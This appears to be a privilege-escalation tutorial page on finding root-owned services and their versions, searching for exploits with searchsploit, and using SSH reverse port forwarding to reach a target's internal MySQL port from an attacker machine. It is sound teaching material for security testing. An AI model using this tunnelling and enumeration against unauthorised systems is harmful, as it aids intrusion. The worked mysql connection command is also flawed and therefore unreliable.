

# Using Service Exploits

Services are programs which run in the background, accepting inputs or doing regular tasks. If vulnerable services are running as root, we can exploit them to get command execution as root.

## Find services running as root

```bash
ps aux | grep "^root"
```

with any results identify the version n umber of the program being executed.

## Find versions with dpkg

```bash
dpkg -l | grep <package_name> 
```

## Find versions with rpm

```bash
rpm -qa | grep <package_name>
```

## Find service ports

```bash
netstat -nl
```

## **Checking Service Configurations**

* Inspect service files in `/etc/systemd/system/` or `/etc/init.d/` for misconfigurations, such as services running as root.
* Use `systemctl status <service>` to check service details, including user and group.

## Finding service exploits

### searchsploit

```
searchsploit <package_name_and_version>
```

Google and web search

## Local port forwarding

Certain root processes can be bound to a local/internal port through which it communicates. When an exploit for that particular service cannot be executed on the target machine, local port forwarding can be a go to method.

To identify services running local ports we can use the `netstat` command and looking for address `127.0.0.1`.

Using ssh a service running on a target machine's internal port can be forwarded to the attacker machine.

```
ssh -R <local-port>:127.0.0.1:<service-port> username@attackermachine
```

The exploit code for that service can be run on the local machine of the attacker at whichever port is chosen.&#x20;

Eg: Let's say there is a mysql service running on port `127.0.0.1:3306` of the target at `10.10.10.1`. We are attacking from `10.10.10.2`. We want to bind the service to our port `9999`. On the target machine we execute:

```
ssh -R 9999:127.0.0.1:3306 attacker@10.10.10.2
```

Now on attacker machine we can bind to the mysql service running on the target using:

```
mysql -u <username-on-target-machine/root> -H 10.10.10.1 -P 9999
```

Our traffic gets routed through the SSH connection to the target's mysql service.

## Leveraging service capabilities

&#x20;The `getcap` tool to list enabled capabilities.

```
getcap -r /
```

<figure><figcaption></figcaption></figure>

The following table summarizes key enumeration commands and their purposes:

| **Command**                | **Purpose**                                              |
| -------------------------- | -------------------------------------------------------- |
| ps -aux                    | List all processes, identify those running as root       |
| netstat -antup             | List open ports and associated services                  |
| getcap -r /                | Enumerate capabilities on executables                    |
| find /etc -perm -2 -type f | Find writable files in /etc, potential misconfigurations |
| rpm -qa --last or dpkg -l  | Check installed package versions for vulnerabilities     |


